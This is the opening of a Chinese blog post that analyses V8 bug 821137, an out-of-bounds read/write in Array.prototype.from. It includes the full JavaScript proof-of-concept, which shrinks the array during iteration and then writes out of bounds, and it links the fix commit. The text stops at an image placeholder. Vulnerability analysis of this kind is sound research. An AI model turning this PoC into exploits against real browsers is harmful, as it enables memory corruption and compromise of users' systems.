 ```yaml
---
layout: post
title:  "V8漏洞分析 - BUG-821137 Array.from OOB"
date:   2019-04-16 18:00:00 +520
categories: Browser Chrome V8 Security
---
```


Issue 821137: OOB read/write using Array.prototype.from
- https://bugs.chromium.org/p/chromium/issues/detail?id=821137

Poc
```
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 1024 * 1024 * 8,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                oobArray.length = 0;
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

搞V8也有段时间了，网上的资料说多不多，说少也不少，很多很基础的东西我都是尽量自己去搜，我觉得搞V8的一个很关键的点在于如何把Poc在V8里的**执行过程**对应上

今天我们拿一个品相不错的洞来分析
- https://chromium.googlesource.com/v8/v8.git/+/b5da57a06de8791693c248b7aafc734861a3785d%5E%21/

拿到parent的hash

![IMAGE](/assets/resources/40C2FF1E7B4E6325CBB12C69AC01B976.jpg)
